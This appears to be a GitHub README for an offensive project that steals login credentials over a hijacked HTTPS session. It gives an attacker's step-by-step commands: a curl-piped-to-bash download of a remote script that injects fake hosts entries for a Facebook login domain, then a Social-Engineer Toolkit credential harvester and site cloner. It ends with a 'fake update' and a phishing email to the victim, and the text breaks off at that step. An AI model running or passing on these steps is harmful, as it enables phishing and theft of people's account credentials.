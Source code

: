 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/https_image-620x499.jpg)


- Installing requirements
     https://github.com/trustedsec/social-engineer-toolkit

- Preparing packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
------------------------------------------------------------

# Exploit steps:

1. - Creating hosts exploit facebook.login.com
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/master/Attacker/hosts_fake_inject/fakehost.sh | bash
```

2. - setoolkit
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
3. - Prepare fake update for the victim
```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash 
```


4. - Sending email on the victim





